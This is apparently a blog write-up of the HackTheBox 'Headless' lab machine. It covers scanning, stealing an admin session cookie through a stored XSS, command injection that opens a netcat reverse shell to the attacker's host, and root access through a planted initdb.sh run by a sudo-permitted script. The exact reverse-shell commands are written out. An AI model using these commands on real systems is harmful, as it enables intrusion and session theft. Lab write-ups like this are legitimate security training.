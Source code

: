 ```yaml
---
title: HackTheBox - Headless
date: 2024-08-05 18:09:00 +0800
categories:
  - hackthebox
tags:
  - ctf
---
```



### STEP 1 SCAN 

First of all, let's do an nmap scan with the following flag:

```nmap -p- -sC -sV -T4 10.10.11.8```

- -p- to scan all ports
- -sC to execute the default scripts
- -sV to see which services are running
- -T4 to to use a timing template to make our scan faster

With the output of our scan we can see we have 2 ports open:
![nmap.png](nmap.png)
- Port 22 for ssh(Secure Shell), this will not interest us because it is very rare to find a security vulnerability on the SSH protocol
- Port 5000 we have an http server, it will greatly interest us because we now know that we have to deal with a web server

Just open the browser with the following url 
https://<IP_TARGETED>:<PORT_NUMBER>

![website1.png](website1.png)

### STEP 2 ENUMERATION

Now that we know we are dealing with a web server we can perform dirbusting to know the files of the website

I used gobuster for this with the following flags :
- dir for dirbusting(enumeration of the directories of the website)
- -u to specify the url targeted
- -w to specify the wordlist to use

Either the following command
``` gobuster dir -u http://10.10.11.8:5000/ -w /./usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt ```

With the following output of our gobuster command we can see we have only two directories for this website:
![website2.png](website2.png)

When we're on the the website with the IP address following by the port is we click on the button "For questions" we're redirected on the directory /support 

We can not access the/dashboard because as a user we are not allowed, so it must be borne in mind that connection cookies will make full part of this challenge

### 3 STEP INTERACT LIKE A USER

Ok, now we're here
![website3.png](website3.png)
If we complete each section and click on submit, nothing happens. 
In this case we can try to do an XSS(Cross Site Scripting) a persistent XSS (because we will inject malicious code form that will be injected and run in the browser of the victim)

Like this : 
![website4.png](website4.png)

Now we have something is going on:
![website5.png](website5.png)

Now that we’re done acting as a user, it’s time to put on the hacker hood to slip on your best goodie and launch burpsuite

###  STEP 4 TRY TO HAVE ACCESS TO DASHBOARD

Here, the objective is to get the cookie of the administrator to be able to connect to the dashboard, that’s why we will put our machine on listening on the port of our choice (here port 9001), to be able to receive the cookie from the administrator when his browser will load our form.

Use the following command to put your machine on listening.

```nc -lnvp 9001 ```

- nc stands for the tool netcat
- -l for listen mode
- -v for verbosity
- -n only for IP address
- -p to specify the specific port


Just launch burpsuite (if you're like what's that tool don't worry we can learn that [here](https://www.geeksforgeeks.org/what-is-burp-suite/))
![burpsuite_off.png](burpsuite_off.png)

You can enable request interception,
![burpsuite_on.png](burpsuite_on.png)
When we return our malicious request we can change the parameters here in this case the user agent parameter because the modification of the user agent does not change the data contained in the request.

We can find our xss payload [here](https://gist.github.com/leveled/2b5d2b2c458f553b17c65551487cee9b#file-xss-payload-steal-session-cookie) :
In the payload just replace by your IP address following by the port of your choice (here 9001)

Now we have what we are looking for :
![burp1.png](burp1.png)
 Now as we can see the admin cookie is our :
 ![response_nc.png](response_nc.png)

In your browser now you can try to access to the dashboard directory, if you can't don't worry it is normal, the only thing you need to do is to go to the developer console of your browser and to enter in the Storage section --> Cookies section --> And to replace the value of the cookie present with that of our admin
![cookie.png](cookie.png)

### STEP 5 LET'S TAKE A FOOT IN THE MACHINE

Now from this dashboard we will see with the help of ntore ami burp suite what happens when we click on the button "Generate a report".

![before_ci.png](before_ci.png)

we can see if there are a command injection ?

![ci.png](ci.png)

That's right, we have a command injection.

What we’re going to do is we’re going to create a reverse shell and we’re going to url encode our command to make sure that our reverse shell works

That's our command, 

```nc 10.10.16.11 60000 -e /bin/bash ```

Now let's url encode:

nc%2010.10.16.11%2060000%20-e%20%2Fbin%2Fbash

you need before performing the command injection to listen on the port of your choice here port 60000

``` nc -lnvp 60000```

just put our command and send the request

![ci2.png](ci2.png)


Now we have one foot in the machine :
(We can have a better shell using the command 
```python3 -c 'import pty; pty.spawn("/bin/bash")'``` )

![revshell1.png](revshell1.png)

We can now obtain our first flag

![screenflag.png](screenflag.png)

Let's goo !!!! We're a user, ok now let's try to be root!!!

### STEP 6 : A PRIVILEGE ESCALATION MUST BE PERFORMED

with the command ```sudo -l```, let's which command we can run 
We have this output:

Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

We need to have more information about this command syscheck
The bash code behind this command is as follows

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

this command execute an other file initdb.sh and that's very interesting because when you type 
```shell
find -type f -name "initdb.sh"
```
We can see we have no output the file "initdb.sh" doesn't exist then we can create it, let's go.

I jump in the folder /./tmp because we need to have full rights to create and modify our "initdb.sh" like this (We use the binary netcat to do a priviledge escalation):

```shell
echo '#!/bin/bash' > initdb.sh ; echo 'nc 10.10.16.11 60001 -e "/bin/bash"' >> initdb.sh
```

We just have to execute our command :

```shell
sudo syscheck
```

And as you can see :

![root.png](root.png)

Now you just have to cat the flag and GG you pwn the Headless Machine.

If you ever have the machine pwn in another way or you find my post incomplete do not hesitate to notify me via my twitter

Thank you for reading this post, have a good day.





















